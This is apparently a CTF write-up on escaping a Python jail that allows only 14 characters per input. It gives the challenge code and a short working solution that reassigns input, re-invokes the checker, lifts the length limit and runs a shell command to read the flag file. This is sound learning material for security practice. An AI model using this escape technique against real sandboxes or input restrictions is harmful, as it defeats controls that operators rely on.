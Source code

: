 ```yaml
---
staticPath: jailctf
Title: JailCtf
Description: How to escape a python jail with only 14 characters
Date: 2024-09-16
tags:
  - CTF
---
```

# The problem code was

```python
#!/usr/local/bin/python3
M = 14  
def f(code):
    assert len(code) <= M
    assert all(ord(c) < 128 for c in code)
    assert all(q not in code for q in ["exec", 
"eval", "breakpoint", "help", "license", "exit"
, "quit"])
    exec(code, globals())
f(input("> "))
```

# Solution
```
g=input;f(g())
f(g());f(g())
M=999999
import os; os.system("cat flag.txt")
```

# Solution Explanation
The problem was black box in nature so it took some experimentation to figure out what was going on. I was limited to 14 characters in input. By assigning the input function to g I can then call input using less characters.

On the next line I just call f twice. This allows me to do whatever I want on the next line because I have another whole line.

On the next line I modify the character limit to a high number so that I can run our payload on the final line.

On the final line I can run arbitrary python code to read the flag.